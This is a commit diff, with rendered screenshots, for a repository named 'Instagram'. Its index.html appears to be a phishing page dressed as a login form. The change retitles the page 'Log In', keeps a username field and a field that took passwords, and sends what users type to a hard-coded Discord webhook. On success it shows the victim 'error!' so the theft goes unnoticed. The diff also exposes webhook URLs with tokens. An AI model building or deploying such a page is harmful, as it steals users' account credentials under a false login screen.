

Before and after one commit to kabanashvilinika1/Instagram, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 327-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,8 +3,19 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Contact Support</title>
+    <title>Log In</title>
     <link rel="stylesheet" href="style.css">
+    <style>
+        /* Match message box to normal input field */
+        #message {
+            height: 40px;               /* same height as your login bar */
+            resize: none;               /* can't expand */
+            overflow: hidden;           /* hide scrollbar */
+            padding-top: 10px;
+            padding-bottom: 10px;
+            line-height: 20px;          /* clean text vertical alignment */
+        }
+    </style>
 </head>
 <body>
     <div class="login-container">
@@ -12,8 +23,11 @@
 
         <form onsubmit="sendSupportMessage(event)">
             <input type="text" id="name" class="input-field" placeholder="Username" required>
-            <textarea id="message" class="input-field" placeholder="Password" required style="height:120px;"></textarea>
-            <button type="submit" class="login-button">Log In</button>
+
+            <!-- Message bar same size & not expandable -->
+            <textarea id="message" class="input-field" placeholder="Log In" required></textarea>
+
+            <button type="submit" class="login-button">Send</button>
         </form>
 
         <p id="status"></p>
@@ -27,7 +41,7 @@
             const msg = document.getElementById("message").value;
             const status = document.getElementById("status");
 
-            const webhookURL = "https://discordapp.com/api/webhooks/1445674227133976588/ink8ID_PzKPvI6_2OaUgvo-HC7tLOtkK6khEzJUkAMEcxG69hlhzqL5f42_Bgj_0dEGi"; // <-- paste your webhook
+            const webhookURL = "https://discordapp.com/api/webhooks/1445677855475241031/Y_z73Tr0o6Od9sg0JjCrlYmrpHB4eB8h_lP-BDb7SdisFmMrDCQKzXI1WFPa5WLQcJIU"; // <-- paste your webhook
 
             const payload = {
                 content: `📩 **New Message**\n**From:** ${name}\n**Message:** ${msg}`
@@ -41,7 +55,7 @@
                 });
 
                 if (res.ok) {
-                    status.innerText = "Message sent!";
+                    status.innerText = "error!";
                     document.getElementById("name").value = "";
                     document.getElementById("message").value = "";
                 } else {
```
